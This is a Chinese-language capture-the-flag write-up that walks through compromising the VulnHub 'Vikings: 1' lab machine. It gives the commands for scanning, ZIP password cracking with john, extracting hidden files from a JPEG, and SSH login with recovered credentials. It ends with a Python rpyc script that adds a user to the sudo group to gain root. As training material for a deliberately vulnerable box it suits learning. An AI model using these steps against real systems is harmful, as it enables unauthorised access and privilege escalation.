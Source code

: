 靶机地址：[Vikings: 1 ~ VulnHub](https://www.vulnhub.com/entry/vikings-1,741/)
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.37
sudo nmap -p22,80 -sV 192.168.1.37
# 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.29
```
先访问Web服务看看，查看前端源码，没发现什么特别的
web路径扫描
```Shell
sudo dirsearch -u http://192.168.1.37
# /site/
sudo dirsearch -u http://192.168.1.37/site/
# /site/js/
# 看了一下没发现什么有价值的东西

# 一定要试试其它扫描工具和字典
gobuster dir -u http://192.168.1.37 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,jsp,html,js,txt
gobuster dir -u http://192.168.1.37/site -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,jsp,html,js,txt
```
扫出一个 `/site/war.txt` ，里面的内容是：`war-is-over` 。
访问 `/site/war-is-over/` ，内容像是一串编码过的字符
使用 [CyberChef](https://gchq.github.io/CyberChef) 进行解码，先加载 `From Base64` 模块，发现结果是一堆以 `PK` 开头的乱码。
再加载 `Entropy` 模块查看这段数据的熵值，如果熵值比较大的话（达到7.5），可以推测这段数据可能是经过压缩的。
关闭 `Entropy` 模块，加载 `Detect File Type` 模块，识别文件类型，结果如下
```
File type:   PKZIP archive
Extension:   zip
MIME type:   application/zip
```
可能是一个zip文件，关闭 `Detect File Type` 模块，将 `Output` 保存下来看看，后缀名改成 `.zip` 。尝试解压缩，发现需要输入密码。尝试暴力破解
```Shell
zip2john war.zip > war_zip.john
john war_zip.john --wordlist=/home/kali/Tools/Custom/rockyou.txt
# ragnarok123
```
成功解压缩但不知道是什么类型的文件无法打开，在 [CyberChef](https://gchq.github.io/CyberChef) 的Input中选择Open file as input，还是调用 `Detect File Type` 模块，识别文件类型，结果如下
```
File type:   Joint Photographic Experts Group image
Extension:   jpg,jpeg,jpe,thm,mpo
MIME type:   image/jpeg
```
改了后缀名，打开看了一下，没发现什么特别的地方。
可能使用了隐写术
```Shell
steghide info king.jpg
```
需要再次输入密码，尝试了几种，没有成功
查看文件中的嵌入签名
```Shell
binwalk -B king.jpg
# 1429567       0x15D03F        Zip archive data, at least v2.0 to extract, compressed size: 53, uncompressed size: 92, name: user
```
可以看到里面藏着一个压缩文件，提取
```Shell
binwalk -e king.jpg
```
运行完发现不光把压缩包提取出来了，里面的 `user` 文件也自动解压了
查看一下文件内容
```Shell
cat _king.extracted/user
# //FamousBoatbuilder_floki@vikings
# //f@m0usboatbuilde7
```
像是SSH的账号密码，试试看
```Shell
ssh FamousBoatbuilder_floki@192.168.1.37
```
失败了，再试试
```Shell
ssh floki@192.168.1.37
```
成功登录目标系统
信息收集一下
```Shell
ls
# boat  readme.txt
ls /home
# floki  ragnar
```
查看 `readme.txt` 和 `boat` 文件，可以看到一些提示，大意是通过 `boat` 可以提权到 `ragnar` 用户。查看 `boat` 文件，内容如下
```
#Printable chars are your ally.
#num = 29th prime-number.
collatz-conjecture(num)
```
第29个质数是109，考拉兹猜想
```Python
def collatz(x):
        result = [x]
        while x != 1:
                if x % 2 == 1:
                        x = 3 * x + 1
                else:
                        x = x / 2
                result.append(int(x))
        return result

def printable(l):
    res = []
    for num in l:
        if num >= 32 and num <= 126:
            res.append(num)
    return res

print(printable(collatz(109)))
```
ASCII中，可打印字符的最终序列为
```
109, 82, 41, 124, 62, 94, 47, 71, 107, 121, 91, 103, 122, 61, 92, 46, 70, 35, 106, 53, 80, 40
```
通过 [CyberChef](https://gchq.github.io/CyberChef) 的 `From Decimal` 模块，将十进制数转换一下，结果如下
如果没用通过脚本筛选可打印字符，可以使用 `Strings` 模块筛选
```
mR)|>^/Gky[gz=\.F#j5P(
```
尝试提权为 `ragnar`
```Shell
su ragnar
```
成功了，获取到第一个flag
先开一下bash
```Shell
bash
```
尝试提权
```Shell
ls -l /etc/passwd
# 没有编辑权限
sudo -l
# 没有sudo权限
crontab -l
# 没有定时任务
find / -perm -u=s -type f -user root -executable ! -group root 2>/dev/null -exec ls -l {} \;
# 没有可利用的SUID文件
```
查看服务状态
```Shell
cat .profile
# sudo python3 /usr/local/bin/rpyc_classic.py
```
查看官方文档，默认端口18812，查看服务状态
```Shell
ss -antlp
```
18812是开启的，尝试利用
将当前用户加入到sudo组中的Python脚本
```Python
import rpyc

def exp():
	# import必须放在函数里
    import os
    # 当前用户加入到sudo组
    os.system("sudo usermod -a -G sudo ragnar")

conn = rpyc.classic.connect('127.0.0.1')
fn = conn.teleport(exp)
fn()
```
上传到服务器上执行看看
```Shell
python3 exp.py
```
退出后重新登录
```Shell
sudo su
```
成功提权

其它提权方式：[[20 CVE#CVE-2022-2588|CVE-2022-2588]]
